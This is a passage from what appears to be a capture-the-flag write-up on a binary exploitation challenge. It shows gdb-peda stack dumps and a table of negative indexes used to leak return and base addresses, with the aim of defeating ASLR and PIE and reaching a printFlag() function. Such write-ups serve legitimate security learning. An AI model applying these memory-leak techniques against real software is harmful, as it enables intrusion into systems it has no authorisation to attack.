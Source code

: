 
Looks like the address before our first input (index `0`) is the return address / our `RIP` - index `-1` - at offset `0x00000e62`:

![](./shuffle-ret.png)

However, if we try to access this address, we also automatically overwrite it, crashing our program. (TODO Didn't happen locally - maybe I am wrong here)

So, we have to find another address that contains our process individual base and calculate the address for `printFlag()` from that to defeat `ASLR` plus `PIE`.

Let's see what indexes we can create (copied from [this writeup](http://secgroup.github.io/2015/11/30/9447ctf2015-writeup-cards/):

```bash
1,  0
 3, -2
 5, -3
 7, -1
 9, -8
17, -9
19, -18
27, -26
29, -12
37, -6
43, -42
47, -36
48, -32
```

Let's have a look at each of these negative indexed:

```bash
0x7fffffffe278: 0x0000555555554e62
gdb-peda$ x/i 0x0000555555554e62
   0x555555554e62 <handleRequests+82>:  mov    esi,ebx
gdb-peda$ x/gx $rsp+0x8-0x8*2
0x7fffffffe270: 0x00007fffffffe520
gdb-peda$ x/gx $rsp+0x8-0x8*3
0x7fffffffe268: 0x00005555555548ea
gdb-peda$ x/i 0x00005555555548ea
   0x5555555548ea <_start>:     xor    ebp,ebp
gdb-peda$ x/gx $rsp+0x8-0x8*6
0x7fffffffe250: 0x0000555555555038
gdb-peda$ x/i 0x0000555555555038
   0x555555555038:      rex.RB outs dx,BYTE PTR ds:[rsi]
gdb-peda$ x/gx $rsp+0x8-0x8*8
```